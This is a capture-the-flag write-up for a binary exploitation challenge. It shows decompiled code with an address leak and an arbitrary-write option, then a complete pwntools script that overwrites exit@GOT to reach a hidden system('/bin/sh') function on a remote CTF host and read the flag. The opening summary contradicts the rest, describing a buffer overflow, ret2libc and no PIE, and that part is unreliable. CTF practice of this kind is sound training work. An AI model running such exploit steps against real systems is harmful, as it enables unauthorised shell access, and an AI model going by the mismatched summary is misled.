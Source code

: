 # KindAuthor - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/KindAuthor.gif)

---

## Challenge Summary

The KindAuthor binary contains a classic buffer overflow vulnerability in the func() function, where 128 bytes of input are read into a 32-byte buffer without bounds checking. This allows an attacker to overwrite the return address and hijack control flow.

The goal is to exploit this vulnerability to perform a ret2libc attack: by overwriting the return address with a crafted payload, we can call standard libc functions (e.g., system("/bin/sh")) to spawn a shell and retrieve the flag. No PIE is involved, so addresses of functions like puts or read can be used directly or leaked to resolve the libc base.

## Binary Information

```bash
$ file KindAuthor
```

![Alt text](img/2.png)

```bash
$ checksec KindAuthor
```

![Alt text](img/3.png)

---

## Static Analysis (IDA pro)

### Key Functionality

```c
printf("Prediction module address (predict_outcome): %p\n", predict_outcome);
```

![Alt text](img/4.png)

- The program prints the address of `predict_outcome`, which leaks a code pointer and allows calculation of the **binary base address**.

```c
scanf("%lx", &v5);
scanf("%lx", &v4);
*v5 = v4;  // Arbitrary write
```

![Alt text](img/5.png)

- Option 3 ("Neural Intervention") allows the user to write any 64-bit value to any memory address, creating an **arbitrary write primitive**.

```c
if (v3 == 4) {
    exit(0);
}
```

![Alt text](img/6.png)

- Choosing option 4 calls `exit()`. If the GOT entry of `exit()` is overwritten with a custom function like `unlock_secret_research_data()`, it will be executed.

### Hidden Function

```c
int unlock_secret_research_data() {
    return system("/bin/sh");
}
```

![Alt text](img/7.png)

- This hidden function spawns a shell and is not reachable during normal execution. Triggering it requires **overwriting `exit@GOT`** to point to it.

---

## Exploit Strategy

### Step 1: Leak the Binary Base Address

At startup, the program prints the address of the `predict_outcome` function.
We use this leak to calculate the **base address** of the binary.

### Step 2: Overwrite `exit@GOT`

Using the "Neural Intervention" option (option 3), we perform an **arbitrary write** to overwrite the **GOT entry for `exit()`** with the address of the hidden `unlock_secret_research_data()` function.

### Step 3: Trigger the Payload

We select menu option 4 (Exit), which causes the program to call `exit()`.
Because we overwrote its GOT entry, control is redirected to `unlock_secret_research_data()`, which executes `system("/bin/sh")`.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template NeuralNet --host ctf.mf.grsu.by --port 9076
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'NeuralNet')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9076)

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
elif args.LOCAL:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')
else:
    libc = ELF('libc.so.6')

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# RUNPATH:    b'./'
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.recvuntil(b'Prediction module address (predict_outcome): ')
exe.address = int(io.recvline().strip(),16) - exe.symbols['predict_outcome']
log.success(f"exe.address : {hex(exe.address)}")

exit_got = exe.got['exit']
ret2win = exe.symbols['unlock_secret_research_data']
io.sendline(b'3')
io.sendline(hex(exit_got).encode())
io.sendline(hex(ret2win).encode())
io.sendline(b'4')
io.sendline(b'cat flag.txt')
io.recvuntil(b"You've gained root access to the main dataset server.")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : {flag.decode()}")

```

---

## Exploit Output

![Alt text](img/8.png)

---

## Vulnerability Summary

- The binary **leaks a code address** (`predict_outcome`) on startup, allowing us to **calculate the binary base address**.
- The **"Neural Intervention"** feature provides an **arbitrary write primitive** via user-controlled memory writes.
- By overwriting the **GOT entry of `exit()`** with the address of `unlock_secret_research_data()`, we can redirect execution and spawn a shell.

---

## Flag

```
grodno{p3R3D08UchIL_n3ir053t_prY4M0_v_G0T}
```
